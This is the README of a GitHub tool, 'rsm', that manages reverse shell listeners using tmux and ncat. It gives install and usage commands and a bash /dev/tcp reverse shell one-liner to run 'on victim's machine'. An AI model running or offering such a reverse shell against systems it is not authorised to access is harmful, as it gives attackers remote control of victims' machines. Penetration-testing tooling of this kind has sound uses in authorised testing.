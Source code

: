 # rsm

A simple reverse shell manager using `tmux` and `ncat`.

## Quick Start

Listening on a port

```shell
git clone https://github.com/djosix/rsm.git
cd rsm

./rsm 11111
# You will attach to a tmux session called 'rsm-11111',
# where 11111 is your listening port.
```

On victim's machine, launch a reverse shell

```shell
bash -c 'bash -i >& /dev/tcp/127.0.0.1/11111 0<&1'
# Once connected to the listening port,
# the script will create a window in our tmux session.
# Just switch to that window and interact with the client.
```

Attaching to the last rsm session

```shell
./rsm attach
```

Stop the server and cleanup

```shell
./rsm stop
# Stop all rsm listeners
```

## Install

```shell
git clone --depth 1 https://github.com/djosix/rsm.git ~/.rsm
# Then add $HOME/.rsm to your PATH
```

## Usage

```shell
$ rsm help
Usage: rsm <COMMAND> [OPTIONS...]

    rsm <PORT>          Start a reverse shell listener on PORT
    rsm -d <PORT>       Start a detatched reverse shell listener on PORT
    rsm list            List active rsm listeners
    rsm info <PORT>     Show details of listener on PORT
    rsm info            Show details of all rsm listeners
    rsm stop <PORT>     Stop a rsm listener on PORT
    rsm stop            Stop all rsm listeners
    rsm attach <PORT>   Attach to a rsm session listening on PORT
    rsm attach          Attach to the last rsm session
    rsm clean <PORT>    Clean sockets for PORT
    rsm clean           Clean all sockets
    rsm help            Show this help message
```
